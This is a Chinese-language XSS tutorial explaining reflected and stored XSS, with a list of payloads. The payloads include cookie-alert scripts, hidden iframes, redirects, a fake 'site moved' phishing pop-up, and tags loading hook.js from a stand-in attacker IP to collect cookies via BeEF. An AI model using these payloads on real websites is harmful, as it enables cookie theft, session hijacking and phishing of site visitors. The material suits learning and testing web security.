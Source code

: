 类型：

1. 反射型 XSS：又称非持久性跨站点脚本攻击。漏洞产生的原因使攻击者注入的数据反应在响应中，一个典型的非持久性 XSS 攻击向量的链接（即每次攻击需要用户的点击）

   原理：js 脚本存在 URL 中，通过用户直接点击连接。

   Tips：可以配合短链生成，掩盖原始的链接

2. 存储型 XSS：又称为持久型跨站点脚本，一般发生在 XSS 攻击向量（即 XSS 攻击代码）存储在网站数据库中，当漏洞页面被用户访问时执行，持久型比非持久型危害更大

   原理：JS 脚本存储在服务器端，任何访问存储着 JS 脚本的页面的用户都会中招

   常见于留言板、评论框

XSS 脚本：

XSS 脚本构建一般用到 HTML 标签和一些 JavaScript 方法

常用 HTML 标签：

```html
<iframe></iframe>
<!-- iframe 元素会创建包含另外一个文档的内联框架(即行内框架) -->
<textarea></textarea>
<!-- textarea 标签定义多行的文本输入控件 -->
<img />
<!-- img 元素向网页中嵌入一副图像 -->
<script></script>
<!-- script 标签用于定义客户端脚本，比如 JavaScript。script 元素既可以包含脚本语句，页可以通过 src 属性指向外部脚本文件。必须的 type 属性规定脚本的 MIME 类型。JavaScript 的常见应用是图像操作、表单验证以及动态内容更新 -->
```

常用 JavaScript 方法：

```javascript
alert(); //alert 方法用于显示带有一条指定小时和一个确认按钮的警告框
windows.location; /* 此对象用于获取当前页面的地址(url)，并将浏览器重定向到新的页面 */
location.href; // 返回当前显示的文档的完整 URL
onload; // 一张页面或一副图像完成加载后执行
onsubmit; // 确认按钮被点击后执行
onerror; //在加载文档或图像时发生错误后执行
```

构建 XSS 脚本

```html
<!-- 弹窗警告，一般用于测试目标点是否存在 XSS 漏洞或者演示使用 -->
<script>alert('xss')</script>
<script>alert(document.cookie)</script>

<!-- 页面嵌套 -->
<iframe src=http://www.baidu.com width=300 height=300></iframe>
<iframe src=http://www.baidu.com width=0 height=0 border=0></iframe>

<!-- 页面重定向 -->
<script>window.location="http://www.baidu.com"</script>
<script>location.href="http://www.baidu.com"</script>

<!-- 弹窗警告并重定向,可以重定向到某个网站，也可以访问指定文件 -->
<script>alert("本站迁移，请移步新站点");location.href="http://www.baidu.com/robots.txt"</script>
<!-- 结合社工思路，如站内私信发给其他用户点击并相信则可能在另外的站点(克隆网站)重新登陆账号 -->

<!-- 访问恶意代码,结合其他 XSS 接收平台或者 BeEF 收集用户 cookie -->
<script src="http://xxx.xxx.xxx.xxx/hook.js"></script>

<!-- 利用图片标签 -->
<img src='#' onerror=alert('xss')>
<img src="javascript:alert('xss');">
<img src="http://xxx.xxx.xxx.xxx/hook.js"></img>

<!-- 绕开过滤的脚本 -->
```